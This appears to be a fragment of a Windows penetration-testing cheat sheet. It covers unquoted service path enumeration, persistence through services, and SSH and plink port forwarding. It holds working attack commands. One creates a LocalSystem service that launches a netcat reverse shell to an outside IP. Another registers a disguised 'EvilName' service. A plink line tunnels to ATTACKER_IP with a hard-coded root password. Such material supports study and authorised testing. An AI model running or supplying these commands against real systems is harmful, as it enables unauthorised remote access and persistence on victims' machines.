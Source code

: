 Unquoted Service Path

wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\" |findstr /i /v """

Persistence via Services

# cmd
sc create spotlessSrv binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""

# powersehll
New-Service -Name EvilName -DisplayName EvilSvc -BinaryPathName "'C:\Program Files\NotEvil\back.exe'" -Description "Not at all"

Port Forwarding / SSH Tunneling
SSH: Local Port Forwarding

# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER
# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER

SSH: Dynamic Port Forwarding

# Listen on local port 8080. Incoming traffic to 127.0.0.1:8080 forwards it to final destination via SSH_SERVER
# Scenario: proxy your web traffic through SSH tunnel OR access hosts on internal network via a compromised DMZ box;
ssh -D 127.0.0.1:8080 user@SSH_SERVER

SSH: Remote Port Forwarding

# Open port 5555 on SSH_SERVER. Incoming traffic to SSH_SERVER:5555 is tunneled to LOCALHOST:3389
# Scenario: expose RDP on non-routable network;
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
plink -R ATTACKER:ATTACKER_PORT:127.0.01:80 -l root -pw pw ATTACKER_IP

Proxy Tunnel
